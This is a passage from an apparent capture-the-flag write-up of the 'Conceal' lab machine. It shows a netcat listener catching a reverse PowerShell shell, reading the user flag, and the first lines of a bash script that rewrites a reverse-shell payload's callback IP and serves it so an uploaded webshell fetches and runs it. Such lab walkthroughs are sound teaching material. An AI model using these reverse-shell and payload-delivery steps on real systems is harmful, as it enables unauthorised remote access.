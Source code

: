     
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.116.
    Ncat: Connection from 10.10.10.116:49675.
    Windows PowerShell running as user CONCEAL$ on CONCEAL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\SysWOW64\inetsrv>whoami
    conceal\destitute
    

From there, grab the user flag, named `proof.txt`:

    
    
    PS C:\users\destitute\desktop> dir
    
    
        Directory: C:\users\destitute\desktop
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       12/10/2018     23:58             32 proof.txt
    
    
    PS C:\users\destitute\desktop> type proof.txt
    6E9FDFE0...
    

### Script It

Because the connection sometimes dies, and I like to be able to pick up where
I left off, I scripted the shell process. I give a port and my current IP, and
it will start the python webserver, upload the webshell over ftp, use curl to
trigger the webshell to request my shell, and then kill the webserver. All I
have to do is open nc in another window to catch the callback.

    
    
      1 #!/bin/bash
      2 
      3 function usage {
      4     echo "Usage: $0 [ip] [port] [powershell file]"
      5     echo "Include ip and port for webserver, and path to file to iex on server"
      6     exit
      7 }
      8 
      9 if [ "$#" -ne 3 ]; then
     10     usage
     11 fi;
     12 
     13 ip=$1
     14 port=$2
     15 file=$3
     16 
     17 if [ ! -f ${file} ]; then
     18     echo "[-] ${file} not found"
     19     usage
     20 fi;
     21 
     22 # update ip in reverse shell
     23 sed -i "s/-IPAddress 10.10.14.[[:digit:]]\{1,3\}/-IPAddress ${ip}/" ${file}
     24 
     25 echo "[*] Starting Web Server on port $port"
     26 python3 -m http.server $port &
     27 WEB_PID=$!
     28 